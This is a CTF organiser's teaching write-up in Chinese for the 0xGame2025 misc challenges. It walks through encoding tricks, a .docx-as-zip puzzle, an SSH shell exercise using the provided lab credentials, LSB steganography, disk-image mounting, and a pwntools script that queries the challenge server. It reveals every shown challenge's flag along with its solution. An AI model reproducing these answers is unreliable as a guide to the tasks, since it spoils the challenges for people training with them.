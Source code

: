 ```yaml
---
layout: post
title: 0xGame2025 misc teaching
date: 2025-10-11 15:06 +0800
tags: 
  - 0xgame2025
categories: 
  - misc
image: /assets/img/backgrounds/0xGame海报2.png
---
```



我是0xGame2025的部分Misc的出题人，下面是针对misc方向的授课文案，希望能帮助刚踏上ctf路上的学弟学妹们快速入门

> 0xgame2025所有题目归档传送门如下
> [0xGame2025Week1](https://www.ctfplus.cn/learning/problem/excellent-problemSet/detail/1975497062459904000)
> [0xGame2025Week2](https://www.ctfplus.cn/learning/problem/excellent-problemSet/detail/1978130369429377024)


## Week1

### Sign_in

题目只给我们一串编码，遇到这类题，就把它复制到`cyberchef`这类自动化解密[工具](https://cyberchef.org/)（我们经常管它叫赛博厨子）中，工具会帮我们检测出编码类型

ps:我们在飞书上有准备`cyberchef`的离线版本，下载解压后点击那个html文件就能用

> 这里希望学弟学妹们能看到一种陌生的编码就进行简单的学习，万变不离其宗，只要掌握其中几种编码原理，其他的编码方式也就能快速上手了

简单说说工具的使用，请注意，如果这里output右侧出现魔法棒，就说明，工具已经检测出字符串的可能编码方式，点击即可

> 需要注意，该工具也有可能误判，如果说解密出来的东西不可读或者是别的错误情况，请及时的选择其他法子
{: .prompt-warning }
<img src="/assets/img/0xgame2025teching.assets/image-20250924174928073.png" alt="image-20250924174928073" style="zoom:50%;" />

Recipe中出现From base64，同时output也大变样，形式上很像我们要提交的flag



<img src="/assets/img/0xgame2025teching.assets/image-20250924175758659.png" alt="image-20250924175758659" style="zoom:50%;" />这里先讲解清楚Base64编码原理

#### base64编码原理

Base64编码是使用范围特别广的一种编码方式，不管是图片，文字，音频等各类文件，都可以通过base64编码处理，便携发送到网上进行传输

正常的Base64编码用到的字符集是（A-Z, a-z, 0-9, +, /）共64个字符，但是注意，'A'在字符集的索引值是0，'/'的索引值是63，中间的就按照顺序进行递增

编码原理如下，先将传输的信息转换成二进制，然后这里的二进制串都是8位的，接下来8位变6位，3个字母拆4组，接着6位二进制变十进制，然后按照十进制在Base64字符集中进行索引，上面说的3个字母拆4组，如果说拆的时候不够拆了，要用0填充，但是全是0的那组下面转换索引值后，用=号填充

下面是将明文flag转换成base64编码的原理示意图

<img src="/assets/img/0xgame2025teching.assets/pic_20250924184003_0.jpg" alt="pic_20250924184003_0" style="zoom:50%;" />


> 这里有个小结论，遇到`Zmxh`别迟疑，说不定就是flag的base64编码呢？还有昂，这里我一直说的是编码而不是加密，所以注意一个小细节，以后不要说base64加密
{: .prompt-info }

#### 凯撒密码原理

接下来拿到很像flag的字符串

```text
0hQkwo{Govm0wo_d0_0hQ4w3_2y25_@xn_r@mu_Pyb_peX}
0xGame{xxx}   #这一行给你们比对的
```

刷题数量足够多的话，能快速认识到，这个是凯撒密码这类的简单移位替换密码(仔细观察的话，会发现首字母的数字没变，符号没变，基本上就能往这里猜测了

加密原理就是将明文中的每个字母按照字母表顺序**向后（或向前）移动固定的位置**，得到密文。

> 加解密公式

- **加密**：`密文字母 = (明文字母位置 + 偏移量) mod 26`
- **解密**：`明文字母 = (密文字母位置 - 偏移量 + 26) mod 26`

所以说只要知道密文字母还有**shift**（偏移量）就能快速锁定明文字母

需要注意的地方如下：

凯撒密码进行替换的时候，应该先检测明文是大写还是小写

大写字母范围：`A(65)到Z(90)`

小写字母范围：`a(97)到z(122)`

由于这里的凯撒偏移指定在对应的大小写字母表中，所以我们的范围只有0-25的索引值，就是说，如果明文是大写，我们应该减去65，用得到的结果进行偏移，然后进行26取余确保结果依然在字母表中，然后再+65回到大写字母中，小写字母的解密操作是同样的原理

不过问题来了，我们这里并不知道shift，好在索引值为0-25，就26个选项，可以选择爆破，最坏的结果就是爆破到第26次，理论依据就是我上面说的，加上shift后，我们会对结果进行26取余，让最终得到的偏移值不会超过26

这里还是建议自己手搓凯撒爆破解密脚本

> 什么？！你代码也写不好？女孩子请找我，我来教你写；男孩子也可以来找我，我可以考虑给你梆梆一拳

```python
def exp(str,shift):
    result=""
    for char in str:
        if char.isupper():
            result+=chr((ord(char)-65-shift)%26+65)
        elif char.islower():
            result+=chr((ord(char)-97-shift)%26+97)
        else:
            result+=char

    return result
def solver(str):
    for i in range(26):
        a=exp(str,i)
        if a.startswith("0xGame"):
            print(a)
            break

if __name__=="__main__":
    solver("0hQkwo{Govm0wo_d0_0hQ4w3_2y25_@xn_r@mu_Pyb_peX}")
#0xGame{Welc0me_t0_0xG4m3_2o25_@nd_h@ck_For_fuN}
```

### 公众号原稿

首先要知道一些前置知识

`.docx`文件的本质就是zip压缩包，与此类似的可读的文档（压缩包）格式有.xlsx和.pptx

这是微软从office 2007开始引入的新的默认格式，遵循一个名为“**开放打包约定**”(Open Packaging Conventions,简称OPC)。

在这个约定下，我们可以将一个`.docx`文件看成“披着Word外衣的ZIP压缩包”

关于约定格式上的细节，大家可以自己研究下，只需要知道，下次遇到这类题后，可以尝试将后缀名改成zip，解压看看有没有什么特殊的文件在里面

```bash
[Content_Types].xml
_rels/
docProps/
    app.xml
    core.xml
word/
    document.xml      <-- 这里存放文档的主要文字内容
    styles.xml        <-- 这里存放样式信息
    media/
        image1.png    <-- 你插入的图片就在这里
    theme/
    _rels/
    ...
```

一般来说，解压**.docx**文件后，它的文件目录如上

本题中，你们解压后会在`docProps/`目录下看到gift.xml，而这就是我为你们准备的flag

<img src="/assets/img/0xgame2025teching.assets/2025-09-24-22-16-18-image.png" alt="2025-09-24-22-16-18-image" style="zoom:50%;" />

### ez_shell

> > 注意：本题是SSH容器连接题目
>
> 本题是一道帮助新生接触Linux命令的引导题，其他佬可以跳过下面的引导部分，需要提交的flag组成如下：
>
> - `whoami`命令的结果
> - `pwd`命令的结果
> - 当前路径下的文件夹名（除去上级路径和当前路径符号
> - 该文件夹下面的flag1.txt文件内容
> - `/root`下的flag2.txt文件内容
>
> 上述结果需要用'_'连接，然后用0xGame{}包裹，最终flag样例：`0xGame{who_pwd_xxx_xxx_xxx}`
>
> 会用到的信息：
>
> - **ssh**连接：`hacker/h@cker_it`
> - **root**用户：`root/Y0u_@re_root`

---

如何如何👀？

是第一次接触shell吗，解决不了的话，我来教你,这里有个[Linux命令大全](https://www.linuxcool.com/)，先放这，猜你不会仔细看，好好看看我下面的引导步骤吧，敲黑板昂！！！

<div align="right">
<img src="/assets/img/0xgame2025teching.assets/如何？.jpg" alt="如何？" style="width:30%;">
</div>




#### 引导

> 也许我有没说明白的点，可以随时找我，或者自行研究解决

遇到这样的`tcp`容器题目，需开启容器，会得到类似这样的内容`nc1.ctfplus.cn 34857`

前面部分可以是IP地址也可以是域名，后面的数字是端口号，注意，中间是空开的，和http的':'连接有所差异

常见的tcp服务是使用**netcat**这样的工具进行nc连接的，但是题目描述中，说到了，这个是ssh容器题目，而且给出了连接账密，需要我们通过ssh进行远程连接

---

- step1 进入shell

在终端中输入:

```bash
ssh hacker@nc1.ctfplus.cn -p 34857
```

`tips:powershell,cmd,linux终端等都可以滴`

一般来说，ssh服务是用默认端口22连接的，就是说在平时连接靶机的时候可以不用-p指定端口，而这里是由于docker容器进行了端口转发才需要我们指定对应的端口号进行连接

上面看不懂问题不大，需要清楚一点，连接ssh需要指定靶机上有远程连接权限的用户，比方说本题中，只有hacker用户能ssh连接，root不可以

```bash
ssh hacker@nc1.ctfplus.cn -p 34857
The authenticity of host '[nc1.ctfplus.cn]:34857 ([103.85.86.154]:34857)' can't be established.
ED25519 key fingerprint is SHA256:heNboAPQQACbtUAWuJK45JXDMmx2YFFmYkGyVhd17e0.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[nc1.ctfplus.cn]:34857' (ED25519) to the list of known hosts.
hacker@nc1.ctfplus.cn's password:
Welcome to Alpine!

The Alpine Wiki contains a large amount of how-to guides and general
information about administrating Alpine systems.
See <https://wiki.alpinelinux.org/>.

You can setup the system with the command: setup-alpine

You may change this message by editing /etc/motd.

dep-428f3ef5-705a-4364-a5ee-e59fc8e1fc00-5d4c55ff4b-gpflw:~$
```

回车运行命令后会出现一大段安全验证的信息，不用管，大致意思是说本电脑第一次连接该服务器，主机列表中找不到对应的身份记录，然后输出了服务器的公钥指纹，用来验证服务器身份的，这个时候，我们需要输入`yes`来同意连接，然后服务器公钥会保存在本地~/.ssh/known_hosts文件中，下次连接的时候就不会触发警告

接下来是输入密码`h@cker_it`，这里你们会不会因为看不到输入的内容误以为机器出问题了？O(∩_∩)O

这是Linux系统出于安全考虑的设计，为了防止旁观者在我们输入密码时看到任何视觉反馈（包括星号、圆点等）但是我们的每一次输入都是被正常记录的，所以一定要注意不要打错字哦，复制进去也是可以的（这个设计熟悉就好，几乎所有Linux系统都是这样的，就好比手机某网站的登录页面，输入密码全用"·"进行替代

登录后看到类似`hostname:~$` 的字样，就表示我们登录成功，那么恭喜你第一次进入shell成功了🥳🥳🥳

- step2 开始答题

所有Linux的基础命令都一样的，详细介绍还是请看我上面放置的网页链接,下面仅仅讲述题目中要用到的命令，也是我们经常用的

-- whoami

很显然，是who am i（我是谁），用途是显示当前用户名

```bash
yolo@yolo:~$ whoami
yolo
```

-- pwd

print working directory，功能是显示当前工作目录的绝对路径

```bash
yolo@yolo:~$ pwd
/home/yolo
```

-- ls

真是最最常用的命令，用途是列出当前路径下的文件及其属性信息，但是经常要结合参数使用

```
yolo@yolo:~$ ls
yolo@yolo:~$ ls -la
total 12
drwxr-xr-x  3 yolo yolo 4096 Sep 26 17:58 .
drwxr-xr-x 11 yolo yolo 4096 Sep 26 17:56 ..
drwxr-xr-x  2 yolo yolo 4096 Sep 26 17:58 .secret
```

第一个ls会单纯列出正常无隐藏的文件名或文件夹名，在Linux中，像.xxx这样的，名字前面是'.'的文件或文件夹会被系统默认隐藏，需要使用-a显示所有文件，包括隐藏的；-l会列出文件的属性，包括文件类型、权限、编辑时间、所有者等等

> 这里的.代表的是当前目录，是一种相对路径，..代表的是上一级路径，前面的**drwxr-xr-x**交给你们自己研究

-- pwd

本命令可以改变当前路径，和我们在Windows桌面双点某文件夹进去看里面的内容的操作类似

```
yolo@yolo:~$ pwd
/home/yolo
yolo@yolo:~$ cd .secret
yolo@yolo:~/.secret$ pwd
/home/yolo/.secret
```

-- cat 

本命令可以读取指定文件的内容，正常来说，推荐用cat读取那些小点的，纯文本的文件，比方说flag.txt这样的，其他情况下，有其他命令可以用，比如more,less等等，自个研究昂

```
yolo@yolo:~/Desktop/.secret$ ls
flag1.txt
yolo@yolo:~/Desktop/.secret$ cat flag1.txt
congratulation!
```

-- su root

Linux对于权限的概念很严格（当然Windows同样，只是不常见

一些文件或路径，需要高权限乃至root用户才能进入，这个时候，我们需要使用su xxx指定切换用户，同样需要使用登录密码

```
yolo@yolo:~/.secret$ cd /root
-bash: cd: /root: Permission denied
yolo@yolo:~/.secret$ su root
Password:
root@yolo:/.secret# cd /root
root@yolo:~# pwd
/root
```

这里我给用户同样设置了不用密码的sudo权限，允许用户yolo不输入密码的情况下直接执行root权限命令

```
yolo@yolo:~/.secret$ id
uid=1000(yolo) gid=1000(yolo) groups=1000(yolo)
yolo@yolo:~/.secret$ sudo su
root@yolo:/home/yolo/.secret# id
uid=0(root) gid=0(root) groups=0(root)
root@yolo:/home/yolo/.secret# cd /root
root@yolo:~# cat flag2.txt
hacker!
```

- step3 合成flag

```
0xGame{yolo_/home/yolo_.secret_congratulation!_hacker!}
```



> 我猜真有人把上面的flag交上去了吧，梆梆锤你呢，自个做一遍，熟悉下，然后这里学长给出建议，一定要多用，越学到后面，我们的命令行工具使用的就越多，而且，在终端上操作没有一种黑客体验感吗？多cool!

<div align="center">
<img src="/assets/img/0xgame2025teching.assets/7c3be7774e8d988c5409a15e55949b22.jpg" alt="cool" style="width:30%;">
</div>



### Zootopia

这个题的考点很基础，是png图片的LSB隐写，下面就简单说说lsb的隐写原理，如果对其他png隐写方法感兴趣，可以看看这篇[博客](https://www.yo1o.top/posts/png-challenge/)

> 嗯，没错，是我写的

#### lsb原理

首先有个大概的理解，在png图片中，一个像素点在文件数据中存储的大小是三个字节，比较常见的模式是按照rgb进行存储的（模式有很多种，但是rgb确实是最常见，其他的模式对应的隐写原理和下面的一样

rgb三个颜色通道的范围都是`[0-255]`
> 别记岔了！！！
{: .prompt-warning }

```text
几个常见的颜色
红色：(255,0,0)
绿色：(0,255,0)
蓝色：(0,0,255)
白色：(255,255,255)
```

然后在文件内部，数据是按照8位二进制进行存储的，比方说某个像素点的值是(111,222,225)，那么在存储中，对应的值是(01101111,11011110,11100001)

然后这里，我们定义每个8位二进制的最后一位为`LSB`  (**Least Significant Bit**,最低有效位)

所谓的lsb隐写就是对每个二进制的最低有效位进行编辑，使用01二进制进行隐写信息，可以藏文件，也可以藏字符串，同样，颜色通道的选择也很多样性，可以仅仅对R通道进行隐写，也可以选择两个以上......

在lsb的原理基础上，颜色通道隐写还能拓展到其他的通道中，也就出现了`MSB` (**Most Significant Bit**,最高有效位)或者其他混乱通道隐写（组合起来很多，不过原理都是一样的

> 编者补充：lsb隐写相对msb而言，有个显著的优势，那就是对整个画面影响不大，或者说我们肉眼几乎看不清隐写前后的差异

#### 解密LSB

解决方式很多，由于lsb的提取稍微麻烦点，我们这里就不细说脚本怎么搓（写提取脚本老麻烦了呢

推荐的解密工具有`Stegsolve`,`Zsteg`

##### stegsolve

前者是有可视化界面的提取通道隐写的工具，同样也有对单个颜色通道提取查看图片的功能，还有xor等等操作，目前来看，我感觉这个最好用

<img src="/assets/img/0xgame2025teching.assets/image-20251001160837872.png" alt="image-20251001160837872" style="zoom:50%;" />

先导入图片（你把png图片给拉进去也没问题

**Analyse->Data Extract->勾选Red,Green,Blue三个通道的最后一位->选中LSB First(虽说感觉没用)->Preview**

通过上述操作，我们能看到文件最前面隐藏了flag，但是在当前情况下，直接复制，会顺带把左边的十六进制数据复制到，建议把preview上面的`Include Hex Dump In Preview`取消勾选，重新Preview下，就好复制flag了（复制出来的结果中间有空格，自行删减就好

##### zsteg

后者是命令行工具，可以帮我们检测多个颜色通道可能有的隐写信息，提取也很好提

正常来说，直接`zsteg xxx.png`可以显示大部分可读的颜色通道隐写的部分内容，然后一些情况下，我们可能会发现稍大文件被隐写进去，这时候我们需要使用**-E xxx<通道组合>** 来完整提取隐写数据到文件中

<img src="/assets/img/0xgame2025teching.assets/image-20251001161738864.png" alt="image-20251001161738864" style="zoom:50%;" />

```text
0xGame{W1_Need_t0_t@k3_a_break}
```

### ezshell_PLUS

本题是ezshell的进阶，就是看看大家的自学能力如何，下面我给出我的步骤

<img src="/assets/img/0xgame2025teching.assets/image-20251001163833641.png" alt="image-20251001163833641" style="zoom:50%;" />

```bash
sha256sum files/* | grep -i "021832def36ccd081b38d8fd51b534d70826b5df4423ce2c15386797ab08bef8"
```

我猜测这里让你们感觉新奇吧，就是用了个管道符，让前一步的输出作为后一步的输入

然后用到了sha256sum，grep命令，这些也很常见，分别是计算哈希和查找

然后这里有个”*“，它被叫做通配符，可以匹配任意字符

> 学长只能说，多见多学多用，命令行用熟悉，会对后面的学习帮助很大

### Do not enter

本题考察了dd镜像挂载与分析

我们首先用file命令查看镜像的基本结构

```bash
file do_not_enter.dd
do_not_enter.dd: DOS/MBR boot sector; partition 1 : ID=0x83, start-CHS (0x10,0,1), end-CHS (0x28f,3,32), startsector 2048, 81920 sectors; partition 2 : ID=0x83, start-CHS (0x2a0,0,1), end-CHS (0x3ff,3,32), startsector 86016, 81920 sectors; partition 3 : ID=0xf, start-CHS (0x3ff,3,32), end-CHS (0x3ff,3,32), startsector 169984, 178176 sectors
```

从输出可以看出，**do_not_enter.dd**是一个MBR（主引导记录）格式的磁盘镜像，包含一个引导扇区和三个分区

- 分区1和2是Linux原生分区（类型0x83)
- 分区3是扩展分区（类型0x0f),通常用于容纳更多逻辑分区

上面看不懂问题不大，反正和下面的解题过程没多少关系，做多了，就会有更深的体会(●'◡'●)

> 💡 小知识：MBR 是一种较老但广泛支持的分区方案，现代系统更多使用 GPT，但大多数 Linux 工具（如 `fdisk`、`mount`、`losetup` 等）依然能很好地处理 MBR 镜像。
> 如果你还不熟悉“引导扇区”“分区表”这些概念，没关系！你可以简单把它理解为：**这个 `.dd` 文件就像是把一整块硬盘“拍了张快照”保存下来了**。我们要做的，就是用合适的工具把这个“虚拟硬盘”挂载到系统里，像打开普通文件夹一样去查看里面的内容。

#### 做法

**第一步：创建循环设备映射**

```
sudo losetup -fP do_not_enter.dd
```

命令解释：

- losetup:linux下的循环设备管理工具，能将文件虚拟成块,换句话说，就是把一个dd文件转换成机器磁盘可以读的格式
- -f:自动查找第一个可用的loop设备
- -P：关键参数！让内核在关联后重新扫描分区表，自动创建分区设备节点
- 作用：将DD镜像文件虚拟成一个”硬盘“，系统会识别出其中的分区结构

**第二步：验证设备映射状态**

```
sudo losetup -a
```

命令解释：

- -a:显示所有活跃的loop设备状态

**第三步：识别分区结构与标签**

```
lsblk -f /dev/loop0 #后面的/dev/loop0是通过第二步得到的
```

命令解释：

- lsblk:列出块设备信息的专业工具
- -f:显示文件系统信息，包括分区标签
- 我的考点其实就是这里，就像题目说的那样，我们应该选中那个do_not_enter的标签

**第四步：挂载目标分区**

```
mkdir -p /mnt/test
sudo mount /dev/loop0p2 /mnt/test
```

命令解释：

- mount:标准的文件系统挂载命令
- /dev/loop0p2:我们要挂载的分区设备 #这里的参数是通过第三步得到的
- /mnt/test：我们设置的挂载点目录
- 底层原理：将分区中的ext4文件系统挂载到目录树，使文件可访问

**第五步：搜索flag内容**

```
sudo grep -r "0xGame" /mnt/test
```

命令解释：

- grep:强大的文本搜索工具
- -r:递归搜索，遍历目录下的所有文件
- "0xGame":flag头

**第六步：清理**

```
sudo umount /mnt/test
sudo losetup -d /dev/loop0
sudo rmdir /mnt/test
```

本题还有其他工具能快速挂载，比如说**kpartx**

然后关于**blkid**，也能用它来读取那个分区的标签，在某些情况下，它可以和**lsblk**换着用

| 特性         | **`blkid`**                         | **`lsblk`**                      |
| ------------ | ----------------------------------- | -------------------------------- |
| **主要功能** | 读取**文件系统**的元数据和属性      | 显示**块设备**的拓扑结构和关系   |
| **数据来源** | 读取文件系统的超级块(superblock)    | 查询内核的块设备信息(sysfs)      |
| **输出视角** | **文件系统视角**                    | **设备拓扑视角**                 |
| **信息类型** | 文件系统特定属性(UUID, LABEL, TYPE) | 设备层次关系(父子、大小、挂载点) |
| **使用场景** | 按属性识别和挂载文件系统            | 理解磁盘分区结构和布局           |

然后下面是我给出的参考步骤，可以看出在正确步骤下，我们只能找到一个完完整整的flag的，fake flag真的一点也没为难大家的（盲猜有人说我胡乱塞东西，哈哈

```bash
~$ sudo losetup -fP do_not_enter.dd
~$ sudo losetup -a
/dev/loop0: [2096]:536444 (/home/yolo/Desktop/timu/0xGame_challenge/do_not_enter.dd)
~$ lsblk -f /dev/loop0
NAME      FSTYPE FSVER LABEL        UUID                                 FSAVAIL FSUSE% MOUNTPOINTS
loop0
├─loop0p1 ext4   1.0   UserShare    5a6be8f0-43f9-4020-a729-510d6d57e95b
├─loop0p2 ext4   1.0   Do_not_enter 643298ec-2a07-4681-9555-addf90de8ae1
├─loop0p3
├─loop0p5 ext4   1.0   WebServer    f965eed6-3de2-4533-8e06-2c816f9e4574
└─loop0p6 ext4   1.0   SysLogs      650ce632-c57e-41c6-8a3b-c6bf3d4e2193
~$ sudo mount /dev/loop0p2 /mnt/test
~$ sudo grep -r "0xGame" /mnt/test
/mnt/test/syslog:0xGame{WoW_y0u_fouNd_1t?_114514}
~$ sudo umount /mnt/test
~$ sudo losetup -d /dev/loop0
~$ sudo rmdir /mnt/test
```

<img src="/assets/img/0xgame2025teching.assets/image-20251002010301159.png" alt="image-20251002010301159" style="zoom:50%;" />

一些其他工具（Windows，本意还是让大家掌握dd镜像挂载方式，但是赖我，没有给大家说清楚，应该关注分区标签，为各位师傅解题时候造成困扰感到抱歉

- AXIOM

<img src="/assets/img/0xgame2025teching.assets/image-20251009225550160.png" alt="image-20251009225550160" style="zoom:50%;" />

- DiskGenius

<img src="/assets/img/0xgame2025teching.assets/image-20251009225621434.png" alt="image-20251009225621434" style="zoom:50%;" />

- R-Studio

<img src="/assets/img/0xgame2025teching.assets/image-20251009225641928.png" alt="image-20251009225641928" style="zoom:50%;" />

#### 学长碎碎念

关于本题，我设置了180个fake flag，目的就是希望新生们采取专业工具科学地进行分析，而不是使用strings暴力手撕，然后在Windows这边，有人用axiom能读出标签名，我测试过autopsy，发现不能显示分区标签，而且一些选手和我聊过，他们用火眼、取证大师等等著名一把梭取证工具也没能解决出来（~~可见我出的题还蛮好~~ ，其实是希望学弟学妹们在后面的学习中，会遇到越来越多的一把梭脚本或者说是妙妙小工具，我并不排斥使用的，但是！我希望你们能掌握对应的原理并亲手用自己的"笨"方法解决出一两道后再选择是否使用所谓的“一把梭”，不然，没了好用的神奇小工具，你还能做出什么呢？

> 在我看来，一把梭工具应该被用在重要赛事抢血上，而不是简单小比赛上冲榜用的

接下来关于AI，这个是近年来最热门的东西，有了ai，对你们入门ctf的帮助会非常非常大，不用觉得啥事都问ai会不好意思，因为我也最开始啥也不懂，这样过来的。所以还是很鼓励大家学习新知识的时候，先自己研究，卡住的话询问ai解决方案，接下来才是找圈子内厉害的师傅（一定要整理并描述清楚自己遇到的问题，不然对他们来说，帮你解惑的难度会上一个档次,haha

然后每次从ai那里拿到解决方案，希望你们能从中学习到一些，而不是无脑的**ai说啥你干啥**，不然下次遇到类似的问题，我们再问一遍AI？这也就带出了我下面给大家的忠告：一定`合理`使用AI，趁着AI在旁边，我们多通过它学习一些新知识，等我们用不了的情况下，也不会手足无措（想象这样一个情景，如果说你啥事只会问ai，那么你所做的事情是不是任何人都能替代？是不是说你失去了ai，会一点竞争力都没有？

## Week2

> 从week2开始，赛题难度上升，这也就意味着大家需要提升学习效率，争取在短时间内学会更多的知识点

### 这个b64不太对啊


> 小拓展
{: .prompt-success }


> 交互出现的中文乱码对解题没有任何影响，但是为了解题体验，可以选择下述方式优化：
> 优先建议使用Linux的终端，wsl2,虚拟机均可，它们支持utf-8
> 如果是使用cmd，请nc连接容器之前，输入`chcp 65001`回车，将编码方式从gbk切换成utf-8后再nc连接
> 如果说是powershell，这个稍微麻烦点
> 需要实现操作如下：依次将下面三个命令输入到powershell中
> `chcp 65001`
> `[Console]::InputEncoding = [System.Text.Encoding]::UTF8`
> `[Console]::OutputEncoding = [System.Text.Encoding]::UTF8`



> 本题可以变相的看作一道密码简单题，既然想学misc，各个方向都要有所了解

base64原理，我给大家在week1上讲的很清楚了，然后本题的考法是将字符集索引表自定义，选手们需要通过将明文和密文进行对比，反推字符集，获取flag，这里面是有多种解决方法的，一个一个字符进行手动拼接也可行，不过我下面讲解一个相对高效的方法：

我们先回顾base64编码原理

```text
三个字节转换为24位的二进制数据，然后分割整理成4组6位二进制，将它们转换成十进制作为索引值，最后就是在base64字符集中找到对应的密文字符进行拼接。

这里有个结论，那就是3个明文字符编码后一定会得到4个字符的密文，且不可能出现=作为填充。

ps：如果你在 Linux 中用 echo "abc" | base64 会得到带 = 的结果，那是因为 echo 默认会在字符串末尾添加一个换行符 \n，导致实际输入是 4 个字节（abc\n），而 Base64 对非 3 的倍数字节会填充 =。若使用 echo -n "abc" | base64 或 Python 的 base64.b64encode(b"abc")，就不会有填充。
```

在 Base64 编码中，每3个字节被划分为4个6位组。其中，**第4个6位组完全由第3个输入字节的低6位构成**（因为前两个字节共16位，只能影响前3个6位组）。因此，无论前两个字节是什么，只要固定它们，改变第3个字节，第4个输出字符就只由第3字节的低6位（即 `byte3 % 64`）决定。（所以说 `'AA'` 完全是占位符，你可以用任意两个可打印字符代替，比如 `'BB'`、`'!!'` 等，只要保持固定即可。

下面我们拿AAX举例（标记：这里的X是任意可打印字符,然后AA仅仅是用来占位

```text
已知：A：ASCII值为65
     X:ASCII值[33,126],只要是可打印字符都可，我们下面转换二进制的时候用'x'代替(x只能取值0或1

  明文   |   A     |    A     |    X
8位二进制 |01000001 | 01000001 | xxxxxxxx
我们拿正常字符集顺序(A-Z,a-z,0-9,+,/)进行举例
A(65),/(47)
举例一：
   A        A         A
01000001 01000001 01000001
010000 010100 000101 000001
  16     20     5      1    <----这里的索引值是1没有任何问题，字符集索引是从0开始的
   Q      U     F      B    <----这里，B正好是标准字符集的第二个

举例二：
   A        A         /
01000001 01000001 00101111
010000 010100 000100 101111
  16     20     4      47    <----这里的索引值是47
   Q      U     E      v    <----这里，v正好是标准字符集的第48个
```

大家有没有看出来什么？

> 感觉还是很懵逼的话，可以手上算算，划拉一下，一定能有所悟

我这里稍微归纳整理了下，使用第3个字母的ASCII值直接对64进行取余运算，拿到的值就是第4个密文的索引值，其中的数学原理和上面举的例子（取低6位）是一样的，比如说A(65)，对64进行取余的结果是1，然后/(47)，对64取余是47，计算结果完全是低6位转换十进制的结果

*脚本的核心原理：**Base64 编码后第4个字符的索引值，等于第3个输入字节的低6位（即 `byte3 % 64`）**。*

```python
import base64
import string
from pwn import *

HOST = 'nc1.ctfplus.cn' 
PORT = 38453 

def solve():
    try:
        p = remote(HOST, PORT)
    except PwnlibException as e:
        print(f"[ERROR] 无法连接到服务器 {HOST}:{PORT}. 错误: {e}")
        return

    
    p.recvuntil(b'Choose an option (1/2): ')
    p.sendline(b'1')
    p.recvuntil(b'> ')

    
    charset_map = {}
    PROBE_START = 33
    PROBE_END = 96 #33 + 64 - 1 = 96，连续64个ASCII字符足以覆盖所有 (i % 64) 的可能值
    
    i = PROBE_START
    while len(charset_map) < 64:
      
        if i > PROBE_END:
            # 理论上不可能触发的
            p.error("FATAL: Failed to discover all 64 characters within the visible range (33-126). Aborting.")
            p.close()
            return

        probe_char = chr(i)
        # 'AA' + 探测字符 X
        probe_data = ('AA' + probe_char).encode('ascii')

        p.sendline(probe_data)
        
        p.recvuntil(b'Result: ')
        encoded_result = p.recvline().strip().decode()
        
        if len(encoded_result) < 4:
             p.warn(f"i={i} ({probe_char}): Unexpected result length {len(encoded_result)} ('{encoded_result}'). Skipping.")
             i += 1
             continue
        
        # 精确提取第 4 个字符 (索引 3)
        target_char = encoded_result[3]

        target_index = i & 0x3f #0x3f = 63，位运算取最后6位 
        #target_index = i % 64  #上下两种写法等价，取余运算，本质上都是直接拿到低6位
 #一些数学上的解释：因为 64 是 2 的幂，i % 64 等价于取 i 的低 6 位，即 i & 0x3F，位运算更快
        
        if target_index not in charset_map:
            # 严格排除填充字符 '='
            if target_char == '=':
                 p.warn(f"i={i} ({probe_char}): Encountered unexpected '=' character. Skipping this index {target_index}.")
                 i += 1
                 continue
                 
            charset_map[target_index] = target_char
        
        print(f"\r[*] Progress: {len(charset_map)}/64 discovered", end="")
        i += 1

    print("\n[+] Charset map fully discovered!")
    final_charset = "".join(charset_map.get(k, '?') for k in range(64))

    if '?' in final_charset:
        p.error(f"Build failed. Resulting charset is incomplete: {final_charset}")
        p.close()
        return
        
    if len(set(final_charset)) != 64:
        p.error(f"Build failed. Resulting charset contains duplicates or invalid chars: {final_charset}")
        p.close()
        return

    p.success(f"Reconstructed charset: {final_charset}")
    p.sendline(b'!q')
    p.recvuntil(b'Choose an option (1/2): ')
    p.sendline(b'2')
    p.recvuntil(b'Your charset guess: ')
    p.sendline(final_charset.encode())
    
    p.success("Charset submitted! Receiving flag...")

    flag_output = p.recvall(timeout=2).decode()
    print("\n" + "="*20 + " FLAG " + "="*20)
    print(flag_output)
    print("="*46)
    
    p.close()

if __name__ == "__main__":
    solve()
```

> 解决方式真的很多，Spreng师傅还有个纯密码测试脚本，如果对这个知识点感兴趣可以和他探讨一二

### 开锁师傅

本题是zip压缩包攻击分类中的明文攻击，可以看到的，压缩包中存在一个png图片，一些png文件结构相关的知识，请上网搜索

